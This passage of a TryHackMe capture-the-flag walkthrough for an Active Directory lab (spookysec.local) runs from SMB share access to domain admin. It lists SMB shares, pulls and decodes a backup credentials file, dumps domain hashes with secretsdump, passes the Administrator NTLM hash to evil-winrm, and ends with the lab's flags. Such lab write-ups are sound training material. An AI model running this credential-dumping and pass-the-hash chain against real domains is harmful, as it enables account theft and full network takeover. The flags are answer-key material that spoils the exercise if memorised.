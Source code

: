
## Step 6: SMB Share Access with Valid Creds
With svc-admin:management2005, list accessible shares:
```bash
smbclient -L \\\\10.10.71.62\\ -U svc-admin
```
- Enter password: management2005
- After you find an interesting share you want to get access into: Mount the share and download contents:

```bash
smbclient \\\\10.10.71.62\backup -U svc-admin
get backup_credentials.txt
```
- Decode the base64 content: ```bash echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d ```

### Output: 
```bash backup@spookysec.local:backup2517860 ```

--- 

## Step 7: Privilege Escalation via DRSUAPI
- Use secretsdump.py to extract NTDS.dit hashes:
```bash
python3 /opt/impacket/examples/secretsdump.py \
  -dc-ip 10.10.71.62 backup@spookysec.local:backup2517860
```
- This gives you: Domain user hashes
- One of the most important ones is this one: ```bash Administrator NTLM hash:0e0363213e37b94221497260b0bcb4fc ```

---

## Step 8: Pass-the-Hash to Gain Administrator Shell
- With Evil-WinRM, authenticate using NTLM hash:
```bash
sudo evil-winrm -i 10.10.71.62 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```
- You now have SYSTEM-level access.

---

## Step 9: Capture the Flags
- Search each user desktop for flag.txt or equivalent:
```bash
| User          | Flag                               |
| ------------- | ---------------------------------- |
| Administrator | `TryHackMe{4ctiveD1rectoryM4st3r}` |
| svc-admin     | `TryHackMe{K3rb3r0s_Pr3_4uth}`     |
| backup        | `TryHackMe{B4ckM3UpSc0tty!}`       |
```

---